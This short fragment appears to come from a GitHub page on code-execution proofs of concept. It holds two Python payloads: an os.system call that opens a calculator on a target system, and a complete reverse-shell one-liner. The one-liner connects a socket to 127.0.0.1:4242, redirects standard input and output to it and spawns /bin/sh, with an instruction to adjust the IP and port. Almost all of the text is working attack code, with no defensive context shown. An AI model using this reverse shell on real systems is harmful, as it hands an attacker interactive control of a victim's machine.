 Simple Command POC that opens a calculator on the target system: 
```python
#Windows
os.system('calc')
#Linux 
os.system('xcalc')
```

Reverse shell command POC:

Adjust the IP and the port for demo.
```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
